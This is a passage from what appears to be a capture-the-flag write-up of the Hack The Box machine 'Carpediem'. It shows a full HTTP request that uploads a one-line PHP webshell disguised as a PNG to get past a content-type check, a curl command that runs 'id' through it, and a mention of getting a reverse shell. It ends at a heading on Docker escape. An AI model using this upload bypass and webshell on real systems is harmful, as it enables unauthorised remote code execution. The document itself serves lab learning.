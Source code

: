 Now we can try to upload a PHP webshell using an image in `Content-Type` because there's a check for that.

```http
POST /classes/Users.php?f=upload HTTP/1.1
Host: portal.carpediem.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: http://portal.carpediem.htb
Connection: close
Referer: http://portal.carpediem.htb/admin/?page=maintenance/files
Cookie: PHPSESSID=23b68a0603f55733b3d5172c5121111a
Content-Type: multipart/form-data; boundary=---------------------------9051914041544843365972754266
Content-Length: 253



-----------------------------9051914041544843365972754266
Content-Disposition: form-data; name="file_upload"; filename="b.php"
Content-Type: image/png

<?php system($_REQUEST['cmd']); ?>

-----------------------------9051914041544843365972754266--
```

Then we can verify it works:

```
$ curl http://portal.carpediem.htb/uploads/1683799320_b.php?cmd=id      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then, we can get an easy reverse shell.

<figure><img src="../../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

### MySQL Creds -> Chisel
